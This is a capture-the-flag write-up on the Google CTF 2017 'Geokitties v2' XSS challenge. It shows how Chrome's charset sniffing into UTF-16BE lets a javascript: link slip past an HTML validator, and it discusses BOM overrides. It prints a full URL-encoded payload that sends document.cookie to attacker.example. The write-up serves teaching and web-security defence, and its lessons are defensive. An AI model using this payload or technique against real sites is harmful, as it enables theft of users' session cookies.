 # Write-up: Google CTF 2017 | Geokitties v2

[**Geokitties v2**](https://geokittiesv2.web.ctfcompetition.com/) is an XSS
challenge that comes in the style of a late-90's homepage built by a cat lover.
The site's only feature is a comment form that allows a "safe" subset of HTML.
Any supplied comment is immediately reviewed by an admin bot that will click on
any link in the comment text. Now, the task is to submit a comment that passes
all checks of the deployed HTML validator and at the same time triggers XSS on
the admin's end to exfiltrate a secret flag cookie.

Interestingly, there is a shortcut to solve this challenge. Instead of
exploiting weaknesses in the HTML parser or the validator, we can take
advantage of Google Chrome's lax charset sniffing to simply bypass parts the
validation process.

## The HTML validator

The application is written in Javascript (Node.js) and uses the
[`htmlparser2`](https://github.com/fb55/htmlparser2) module to parse each
comment's HTML code. The validator then roughly takes these steps to ensure
that the supplied HTML is safe:

- Only allow HTML tags from a whitelist (`p`, `a`, `b`, `img`, `br`, `i`) to
  prevent dangerous tags with side effects (e.g. `<script>` or `<iframe>`).
- Exclude all `on.*` event handler attributes (e.g. to prevent an `onclick`
  event attached to an otherwise innocuous `<a>` link).
- Allow an `href` attribute only if the value starts with `http[s]:` to prevent
  XSS via pseudo schemes such as `javascript:` or `data:`.

One possible attack approach here is to examine the parser's handling of
duplicate attributes and attributes that are written in mixed case or
interspersed with unexpected Unicode glyphs. Other ideas include supplying an
excessive amount of attributes or using ambiguous formatting – e.g. by mixing
different types of quotes, or by finding a character that the application's
parser interprets as whitespace while the browser sees it as part of an
identifier.

## A different approach: Charset sniffing

But luckily we don't need to examine the parser implementation to solve the
challenge. Instead, we take advantage of the fact that the site is served as
`text/html`, but lacks a charset declaration. In such a case, browsers employ
different heuristics to *guess* the intended charset. But while convenient,
charset sniffing can become unpredictable quickly.  E.g., Chrome interprets
`data:text/html,%AA%BB`as being encoded in the Chinese `Big5` charset, while
`data:text/html,%00%BB` is sniffed as UTF-16LE, although two bytes hardly allow
a reliable determination.

So, our idea is to trick Chrome into detecting the page as UTF-16BE (Big
Endian) by using the byte sequence
`\x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x`. In UTF-16, Unicode code points
are encoded in chunks of at least 16 bits. E.g., the character `A` (which is
encoded in UTF-8 as `\x41`) needs to be encoded as `\x00\x41` in UTF-16BE (or
`\x41\x00` in UTF-16LE).  Consequently, the document
`data:text/html;charset=utf-16be,<br>` doesn't yield a single `<br>` tag but
results in the two Unicode code points `U+3C62` and `U+723E`. We can exploit
this behavior to make the browser "swallow" sequences that appear as HTML
syntax in UTF-8 but don't have an effect in a different charset. This way we
can ultimately inject arbitrary tags outside the parser's whitelist.

The format of our comment will look like this:

    \x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x<a href="http:$payload">foo</a>

This comment will pass the validation, no matter what we put for `$payload`.
The key is that it's validated by the application in UTF-8 but displayed in the
browser in UTF-16BE. So, any angle brackets and tags that appear inside the
`href` attribute value would be considered secure by the validator, while the
browser doesn't recognize the `<a>` tag in the fist place. At `$payload` we can
then simply inject HTML code in UTF-16BE. That is, if we have an ASCII-based
payload, we just need to pad each character with a null byte and make sure we
don't use double quotes which would interfere with the original attribute. To
exfiltrate the flag, we then just issue a redirect to an attacker-controlled
domain with the cookie attached.

So, the final URL-encoded sequence could look like this:

    %11x%12x%13x%14x%15x%16x%17x%18x%19x%3Ca%20href%3D%22http%3A%00<%00a%00 %00h%00r%00e%00f%00=%00j%00a%00v%00a%00s%00c%00r%00i%00p%00t%00:%00l%00o%00c%00a%00t%00i%00o%00n%00=%00'%00h%00t%00t%00p%00s%00:%00/%00/%00a%00t%00t%00a%00c%00k%00e%00r%00.%00e%00x%00a%00m%00p%00l%00e%00/%00'%00%%002%00B%00d%00o%00c%00u%00m%00e%00n%00t%00.%00c%00o%00o%00k%00i%00e%00>%00f%00o%00o%00<%00/%00a%00>%22%3e

For readability, this is the sequence again with non-printable characters
replaced by spaces:

     x x x x x x x x x <a href="http: < a   h r e f = j a v a s c r i p t : l o c a t i o n = ' h t t p s : / / a t t a c k e r . e x a m p l e / ' + d o c u m e n t . c o o k i e > f o o < / a >">

And as soon as the bot clicks on the link, the following flag will be sent
to `https://attacker.example/`:

    CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}

It's worth noting that other browsers (e.g. Firefox) don't perform the same
tolerant charset sniffing as Google Chrome does. But fortunately, the admin
bot's user-agent string reveals that it's implemented as a headless Chrome
instance, so everything works as planned.

## Another idea: Byte order marks

The application almost fell for a different trap that would even have defeated
an explicit charset declaration. An attacker who controls the first bytes in a
document can inject a BOM (byte order mark) to override the specified charset –
even if it [originates from a header declaration](https://www.w3.org/International/questions/qa-byte-order-mark):

> Changes introduced with HTML5 mean that the byte-order mark overrides any
encoding declaration in the HTTP header when detecting the encoding of an HTML
page.

The BOM for UTF-16BE is `\xFE\xFF`, so this document is encoded in UTF-16BE,
despite being declared as UTF-8:

    data:text/html;charset=utf-8,%FE%FFfoo

But sadly, we can't make this technique work here because BOMs aren't preserved
by the application (e.g.,`\xFF` is converted to `\xEF\xBF\xBD` on the way).

## Lessons learned

Web applications should always declare a charset explicitly and not rely on
automated detection by clients. That's because inconsistent charset sniffing
techniques make it hard to predict browser behavior. Also, an attacker should
not be able to control the first few bytes of a document. Otherwise, attacks
related to charset and content-type sniffing may be facilitated.
